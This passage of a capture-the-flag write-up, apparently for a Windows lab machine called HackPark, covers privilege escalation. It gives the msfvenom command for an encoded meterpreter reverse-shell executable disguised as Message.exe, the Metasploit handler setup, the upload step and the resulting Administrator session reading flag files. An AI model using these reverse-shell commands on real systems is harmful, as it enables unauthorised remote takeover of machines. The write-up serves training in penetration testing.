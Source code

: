 # Privilege Escalation

## Local Enumeration

After further enumeration we can upload an reverse shell payload as Message.exe by creating an payload with msfvenom

```shell
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.14.49.18 LPORT=4447 -e x86/shikata_ga_nai -f exe -o Message.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of exe file: 73802 bytes
Saved as: Message.exe
```

Get our handler running once more with the updated port number

```shell
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.14.49.18
set LPORT 4447
run
```

Upload Message.exe to the machine (trial and error as it runs periodically)

```shell
meterpreter > upload Message.exe
```

Finally Meterpreter catches our shell:

```shell
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.14.49.18:4447 
[*] Sending stage (175686 bytes) to 10.10.194.58
[*] Meterpreter session 1 opened (10.14.49.18:4447 -> 10.10.194.58:49292) at 2023-05-10 19:21:01 +0100

meterpreter > id
[-] Unknown command: id
meterpreter > getuid
Server username: HACKPARK\Administrator
meterpreter > cat c:\\users\\administrator\\desktop\\root.txt
meterpreter > cat c:\\users\\jeff\\desktop\\user.txt
```

